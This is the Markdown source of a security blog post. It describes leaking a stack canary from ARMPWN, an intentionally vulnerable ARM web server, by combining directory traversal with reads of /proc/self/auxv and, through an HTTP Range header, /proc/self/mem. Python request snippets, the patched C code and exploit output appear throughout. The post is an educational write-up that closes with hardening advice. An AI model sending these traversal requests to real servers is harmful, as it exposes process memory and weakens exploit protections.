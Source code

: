 ```yaml
---
layout: post
title: "ARMPWN redux: canary reloaded"
author: hugsy
author_twitter: _hugsy_
author_email: hugsy@[RemoveThisPart]blah.cat
author_github: hugsy
tags: linux exploit arm ssp armpwn
header-img: "img/canary-header.png"
---
```


>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

## Intro ##

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries){:target="_blank"}
  * the code repository is [there](https://github.com/elttam/canary-fun){:target="_blank"}

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8){:target="_blank"} (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/2016/06/12/armpwn-challenge){:target="_blank"}, a vulnerable web server
created by  {% include icon-twitter.html username="@5aelo" %} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176){:target="_blank"}
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976){:target="_blank"}


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201){:target="_blank"}
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

{% highlight c %}
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
{% endhighlight %}

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary){:target="_blank"}.


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

{% highlight python %}
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
{% endhighlight %}

And then parse the result:

{% highlight python %}
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
{% endhighlight %}

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

{% highlight python %}
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
{% endhighlight %}


_Note_: `yama/ptrace_scope` must be set to 0 to be able to read the process
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

{% highlight text %}
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
{% endhighlight %}

![](https://cdn.meme.am/cache/instances/folder864/18614864.jpg)

To be we fetched the correct value for the canary of the remote process, we can
use
[this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally
to compare the values for the canary:

{% include image.html src="https://i.imgur.com/IWpuMIy.png" alt="Running the exploit" id=1 %}



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore
defeat the SSP protection. As you may have noticed, since this attack does not
rely on memory corruption, it is extremely reliable. And it is also much faster:
the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to
determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as
possible, especially on production systems, since restricting `ptrace`, or
refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any
question/comment ☕
